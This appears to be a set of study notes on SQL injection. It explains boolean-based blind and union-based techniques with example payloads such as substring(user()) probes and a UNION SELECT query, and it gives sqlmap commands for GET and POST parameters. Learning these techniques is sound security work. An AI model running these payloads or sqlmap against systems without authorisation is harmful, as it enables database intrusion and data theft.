 # SQL Injection

### Boolean Based Blind SQLi

#### user()

It returns name of user currently using the db

#### substring()

It returns a substring of given argument. It takes 3 parameters i.e input string, position of substring and its length.

#### Example

```sql
select substring(user(), 1, 1) = 'r'; // True since username is root
select substring(user(), 1, 1) = 'a'; // False
```

We can iterate over letters of the username by using payloads such as

```sql
' or substring(user(), 1, 1) = 'a
' or substring(user(), 2, 1) = 'b
```



### Union Based SQLi

Our target is to make the original query payload empty and using our own payload

```sql
Select description from items where id='' UNION Select user(); -- -
```

* We used a trick i.e third dash after **two dashes and a space**
* This is because most browsers auto remove trailing spaces in the URL, so u add a character after the space

#### Steps to find fields

1. use NULL to find out no of columns
2. use different data types to find out type of data returned



### SQLMap

It automates the whole process

#### Get Parameter

```bash
sqlmap -u 'http://website.com/view.php?id=123' -p id --technique=U
```

* \-p tells us which parameter to check
* technique used is Union based attacks

#### Post Parameter

```bash
sqlmap -u <url> --data=<POST STRING> -p parameter --technique=B
```

* technique used is boolean

